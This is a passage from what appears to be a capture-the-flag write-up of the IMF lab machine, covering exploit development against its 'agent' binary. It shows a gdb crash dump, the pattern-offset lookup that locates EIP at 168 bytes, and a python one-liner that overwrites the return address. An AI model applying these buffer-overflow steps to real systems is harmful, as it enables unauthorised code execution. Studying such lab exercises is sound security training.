 ```console
ESP: 0xffffd440 ("AAWAAuAAXAAvAAYAAwAAZAAxAAyAAzA%%A%sA%BA%$A%nA%CA%-A%(A%DA%;A%)A%EA%aA%0A%FA%bA%1A%GA%cA%2A%HA%dA%3A%IA%eA%4A%JA%fA%5A%KA%gA%6A%")
EIP: 0x74414156 ('VAAt')
EFLAGS: 0x10286 (carry PARITY adjust zero SIGN trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
Invalid $PC address: 0x74414156
[------------------------------------stack-------------------------------------]
0000| 0xffffd440 ("AAWAAuAAXAAvAAYAAwAAZAAxAAyAAzA%%A%sA%BA%$A%nA%CA%-A%(A%DA%;A%)A%EA%aA%0A%FA%bA%1A%GA%cA%2A%HA%dA%3A%IA%eA%4A%JA%fA%5A%KA%gA%6A%")
0004| 0xffffd444 ("AuAAXAAvAAYAAwAAZAAxAAyAAzA%%A%sA%BA%$A%nA%CA%-A%(A%DA%;A%)A%EA%aA%0A%FA%bA%1A%GA%cA%2A%HA%dA%3A%IA%eA%4A%JA%fA%5A%KA%gA%6A%")
0008| 0xffffd448 ("XAAvAAYAAwAAZAAxAAyAAzA%%A%sA%BA%$A%nA%CA%-A%(A%DA%;A%)A%EA%aA%0A%FA%bA%1A%GA%cA%2A%HA%dA%3A%IA%eA%4A%JA%fA%5A%KA%gA%6A%")
0012| 0xffffd44c ("AAYAAwAAZAAxAAyAAzA%%A%sA%BA%$A%nA%CA%-A%(A%DA%;A%)A%EA%aA%0A%FA%bA%1A%GA%cA%2A%HA%dA%3A%IA%eA%4A%JA%fA%5A%KA%gA%6A%")
0016| 0xffffd450 ("AwAAZAAxAAyAAzA%%A%sA%BA%$A%nA%CA%-A%(A%DA%;A%)A%EA%aA%0A%FA%bA%1A%GA%cA%2A%HA%dA%3A%IA%eA%4A%JA%fA%5A%KA%gA%6A%")
0020| 0xffffd454 ("ZAAxAAyAAzA%%A%sA%BA%$A%nA%CA%-A%(A%DA%;A%)A%EA%aA%0A%FA%bA%1A%GA%cA%2A%HA%dA%3A%IA%eA%4A%JA%fA%5A%KA%gA%6A%")
0024| 0xffffd458 ("AAyAAzA%%A%sA%BA%$A%nA%CA%-A%(A%DA%;A%)A%EA%aA%0A%FA%bA%1A%GA%cA%2A%HA%dA%3A%IA%eA%4A%JA%fA%5A%KA%gA%6A%")
0028| 0xffffd45c ("AzA%%A%sA%BA%$A%nA%CA%-A%(A%DA%;A%)A%EA%aA%0A%FA%bA%1A%GA%cA%2A%HA%dA%3A%IA%eA%4A%JA%fA%5A%KA%gA%6A%")
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x74414156 in ?? ()
```

To find the exact offset when the crash occurs, I used the **pattern offset** utility followed by the EIP register **0x74414156**.

```console
gdb-peda$ pattern offset 0x74414156
1950433622 found at offset: 168
gdb-peda$
```

The offset was found at 168 bytes, so I generated the following string to cause the buffer overflow in the stack and overwrite the EIP register.

```console
root@kali:~# python3 -c 'print("A"*168 + "B"*4 + "C"*200)'
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCC
```

I verified that the EIP register was successfully overwritten, for B's (Its hex equivalent is \x42).

```console
gdb-peda$ run
Starting program: /root/imf/agent
Download failed: Function not implemented.  Continuing without debug info for /lib/ld-linux.so.2.
Download failed: Function not implemented.  Continuing without debug info for /root/imf/system-supplied DSO at 0xf7fc5000.
Download failed: Function not implemented.  Continuing without debug info for /lib32/libc.so.6.
  ___ __  __ ___
 |_ _|  \/  | __|  Agent
  | || |\/| | _|   Reporting
 |___|_|  |_|_|    System


Agent ID : 48093572
Login Validated
```
